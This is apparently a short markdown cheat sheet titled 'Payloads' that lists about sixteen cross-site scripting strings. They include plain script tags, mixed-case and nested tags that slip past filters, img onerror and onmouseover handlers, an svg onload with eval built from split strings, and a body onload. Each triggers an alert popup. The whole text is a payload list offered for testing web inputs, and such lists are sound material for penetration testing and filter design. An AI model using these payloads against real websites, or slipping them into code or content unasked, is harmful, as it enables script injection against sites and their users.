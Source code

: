 # Payloads
## XXS Popup:
- <script>alert("XSS");</script>
-<script>alert(‘XSS’);</script>
-<script>alert(‘XSS’)</script>
-<<script>alert("XSS");//<</script>
-<sCripT>alert("XSS")</scRipt>
-<scr<script>ipt>alert('XSS')</script>
-<sCripT>alert('XSS')</scRipt>
-<img src="/" onerror="alert('XSS')"/>
-<img src=x onMouseOver=alert('XSS')>
-<svg/onload=eval("ale"+"rt")(`XSS${alert`XSS`}`)>
-<img src='nevermind' onerror="alert('XSS');" />
-<< script>alert("XSS");//<</ script>
-<svg/onload=alert('XSS')>
-div.innerHTML = '<script deferred>alert("XSS");</script>';
-<img src="aaa" onerror=alert('xxs')>
-<body onload="alert('XSS')">

